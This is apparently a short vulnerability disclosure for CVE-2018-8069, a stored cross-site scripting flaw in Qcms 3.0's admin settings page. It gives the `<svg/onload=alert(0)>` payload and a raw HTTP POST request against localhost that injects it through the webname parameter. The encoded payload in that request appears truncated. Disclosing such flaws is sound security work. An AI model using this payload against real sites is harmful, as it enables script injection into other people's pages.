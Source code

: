 # Qcms version 3.0 has xss via the webname parameter to the /backend/system.html URI

**CVE-2018-8069**

there is a xss in admin page `/backend/system.html` webname parameter.

set xss payload `<svg/onload=alert(0)>` to the webname parameter and save the edit then visite site `/index.php`,there is a alert box to show 0.

![](1.png)

	POST /backend/system.html HTTP/1.1
	Host: localhost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Referer: http://localhost/backend/system.html
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 40
	Cookie: PHPSESSID=8sqolv5pb9kfljuh5g0b36tus6; admin_id=1; admin_level=1; admin_name=admin; admin_secret=f63fad88029cf8f923c35fafe1c6b5d1; UM_distinctid=162181544af9-0ca6b89389a11d8-4c322172-1fa400-162181544b04ce;
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	webname=%3Csvg%2Fonload%3Dalert%280%29%3

![](2.png)
